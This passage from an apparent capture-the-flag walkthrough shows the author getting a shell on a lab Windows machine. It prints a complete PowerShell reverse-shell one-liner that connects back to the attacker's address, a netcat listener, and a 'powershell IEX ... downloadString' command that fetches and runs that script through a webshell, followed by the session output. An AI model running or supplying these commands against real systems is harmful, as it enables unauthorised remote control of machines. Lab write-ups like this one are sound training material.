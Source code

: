 To launch a netcat listener to receive a reverse shell.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...

{% endhighlight %}

After that, make a script for the reverse shell, we can use <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1">this Powershell script</a>.<br>
{% highlight shell %}
root@kali:~# cat Invoke-PowerShellTcpOneLine.ps1 
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('10.10.14.13',443)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
{% endhighlight %}

Next, run a simple web server that hosts the powershell script.
{% highlight shell %}
root@kali:~# ls -l | grep Invoke
-rw-r--r-- 1 root root  973 Nov  6 18:47 Invoke-PowerShellTcpOneLine.ps1

root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

{% endhighlight %}

Then invoke the powershell script, we have to run following command with the webshell.
{% highlight shell %}
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/Invoke-PowerShellTcpOneLine.ps1')
{% endhighlight %}

Now we got a reverse shell.<br>
user.txt is in the directory "Directory: C:\users\Phineas\Desktop".
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.82] 49174
cwd
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv> type C:\users\Phineas\Desktop\user.txt
92ede778a1cc8d27cb6623055c331617
{% endhighlight %}


### 3. Getting Root
